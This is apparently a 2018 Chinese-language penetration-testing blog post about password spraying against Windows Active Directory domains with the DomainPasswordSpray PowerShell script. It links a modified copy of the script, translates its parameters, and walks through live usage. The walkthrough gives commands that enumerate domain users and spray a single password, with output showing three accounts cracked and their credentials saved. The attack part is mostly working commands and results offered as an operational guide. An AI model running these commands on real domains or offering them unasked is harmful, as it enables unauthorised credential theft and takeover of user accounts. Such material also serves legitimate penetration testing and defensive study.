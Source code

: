 ```yaml
---
layout: post
title:  "Windows域渗透 - 用户密码枚举"
date:   2018-05-02
categories: 内网渗透
permalink: /archivers/2018-05-02/1
description: "推荐一个Powershell脚本"
---
```

推荐一个Powershell脚本
<!--more-->

## 0x00 前言

在进行Windows域渗透的时候，面对庞大的用户账号，不知该从何下手，扫描网络服务有怕搞出大动静，肿么办呢？

## 0x01 Powershell

目前已经有很多Powershell集合脚本，用于域渗透简直舒爽

今天推荐一款名字叫`DomainPasswordSpray.ps1`的脚本，主要原理是先来抓取域用户账号，然后指定密码字典进行域认证。认证通过的就是密码正确的了。

![0x00][0x00]

**GitHub项目地址：https://github.com/dafthack/DomainPasswordSpray**

由于作者的脚本有一个小瑕疵，故此我改了一下，避免抛出了一些错误。

![0x01][0x01]

**优化后的地址：http://payloads.online/scripts/Invoke-DomainPasswordSpray.txt**


## 0x02 参数说明

在代码的开头就已经有介绍了，我简单汉化一下。

    
描述：该模块主要用于从域中收集用户列表。

* 参数： Domain 指定要测试的域名
* 参数： RemoveDisabled 尝试从用户列表删除禁用的账户  
* 参数： RemovePotentialLockouts 删除锁定账户 
* 参数： UserList 自定义用户列表(字典)。 如果未指定，这将自动从域中获取。
* 参数： Password 指定单个密码进行口令测试
* 参数： PasswordList 指定一个密码字典
* 参数： OutFile 将结果保存到某个文件
* 参数   Force 当枚举出第一个后继续枚举，不询问

## 0x03 使用说明

使用例子：

`C:\PS> Get-DomainUserList`

该命令将从域中收集用户列表。
    
`C:\PS> Get-DomainUserList -Domain 域名 -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt`

该命令将收集域“域名”中的用户列表，包括任何未被禁用且未接近锁定状态的帐户。 它会将结果写入“userlist.txt”文件中

`C:\PS> Invoke-DomainPasswordSpray -Password Winter2016`

该命令将会从域环境中获取用户名，然后逐个以密码`Winter2016`进行认证枚举

 
`C:\PS> Invoke-DomainPasswordSpray -UserList users.txt -Domain 域名 -PasswordList passlist.txt -OutFile sprayed-creds.txt`

该命令将会从`users.txt`中提取用户名，与`passlist.txt`中的密码对照成一对口令，进行域认证枚举，登录成功的结果将会输出到`sprayed-creds.txt`

## 0x04 实战

### 获取域环境中的用户列表

**命令：**`C:\PS> Get-DomainUserList | Out-File -Encoding ascii userlist.txt`

**输出：**

```
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] There are 8 total users found.
[*] Created a userlist containing 8 users gathered from the current user's domain
```

获取的用户名：

```
C:\PS> type .\userlist.txt
Administrator
Guest
liyingzhe
krbtgt
Hack
testPass
webManager
dba
```

### 密码枚举

![0x02][0x02]

**命令：** `C:\PS> Invoke-DomainPasswordSpray -Domain 域名 -Password w!23456 -OutFile sprayed-creds.txt`

**输出：**

```
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] Removing disabled users from list.
[*] There are 6 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 6 users gathered from the current user's domain
[*] Password spraying has begun. Current time is 18:45
[*] This might take a while depending on the total number of users
1 of 6 users tested2 of 6 users tested3 of 6 users tested[*] SUCCESS! User:testPass Password:w!23456
4 of 6 users tested[*] SUCCESS! User:webManager Password:w!23456
5 of 6 users tested[*] SUCCESS! User:dba Password:w!23456
6 of 6 users tested[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to sprayed-creds.txt
```

枚举的结果：

```
C:\PS > type .\sprayed-creds.txt
testPass:w!23456
webManager:w!23456
dba:w!23456
```

[0x00]: http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-05-02/0x00.png
[0x01]: http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-05-02/0x01.png
[0x02]: http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-05-02/0x02.png
